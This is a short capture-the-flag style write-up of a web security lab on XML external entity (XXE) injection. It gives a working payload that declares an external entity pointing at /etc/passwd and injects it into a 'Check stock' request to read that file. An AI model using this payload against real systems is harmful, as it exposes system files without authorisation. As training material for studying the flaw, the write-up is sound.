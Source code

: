 # Exploiting XXE using external entities to retrieve files
# Objective
This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response. \
To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file.

# Solution
## Analysis
Application has a "Check stock" feature. Data from client to server is sent in XML format.

|![](Images/image.png)|
|:--:| 
| *"Check stock" request* |

## Exploitation
The XML injection (file retrieval) can be performed using the following payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

|![](Images/image-1.png)|
|:--:| 
| *XML injection - File retrieval* |